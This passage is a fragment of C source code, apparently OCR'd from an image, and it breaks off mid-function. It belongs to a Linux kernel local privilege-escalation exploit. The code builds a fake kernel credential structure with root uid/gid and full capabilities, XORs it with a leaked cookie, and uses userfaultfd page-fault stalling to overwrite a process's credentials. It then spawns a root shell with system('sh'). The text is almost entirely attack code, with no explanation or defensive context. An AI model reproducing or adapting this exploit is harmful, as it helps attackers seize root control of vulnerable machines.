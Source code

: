 ```c 
        printf("uid: %d\n", uid);
        if (!uid) {
            char dummy[8];
            write(child_comm.write, &dummy, sizeof dummy);
            system("sh");
        }

        exit(0);
        
    }

    sleep(1);

    struct kernel_cred *cred = (void*)scratch;

    cred->usage = 1;
    cred->uid = cred->euid = cred->fsuid = 0;
    cred->gid = cred->egid = cred->fsgid = 0;
    cred->securebits = 0; /* SECUREBITS_DEFAULT */
    cred->cap_effective = cred->cap_permitted = cred->cap_inheritable = cred->cap_bset = 0x1fffffffful;
    cred->cap_ambient = 0;

    for (size_t i = 0; i < 96 / 8; i++)
        scratch[i] ^= cookie;

    ufd_unblock_page_copy((void *)blockers[1].arg.pagefault.address, scratch, &copied_size);

    struct pollfd poller[] = { {.events = POLLIN, .fd = child_comm.read}};

    if (poll(poller, 1, 3000) != 1)
        fatal("Could not overwrite struct cred. Try again..");

    sleep(10000);
    return NULL;
}

// Initialize userfaultfd. Must call this before using the other userfault_*
// functions.
static void userfaultfd_init()
{
    for (size_t i = 0; i < 2; i++)
    {
        userfault_fd = syscall(SYS_userfaultfd, O_CLOEXEC);
        if (userfault_fd < 0)
        {
            fatal("userfaultfd");
        }

        userfault_page = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
        if (userfault_page == MAP_FAILED)
        {
            fatal("mmap userfaultfd");
        }

        // Enable userfaultfd
        struct uffdio_api api = {
            .api = UFFD_API,
            .features = 0,
        };
        if (ioctl(userfault_fd, UFFDIO_API, &api) < 0)
        {
```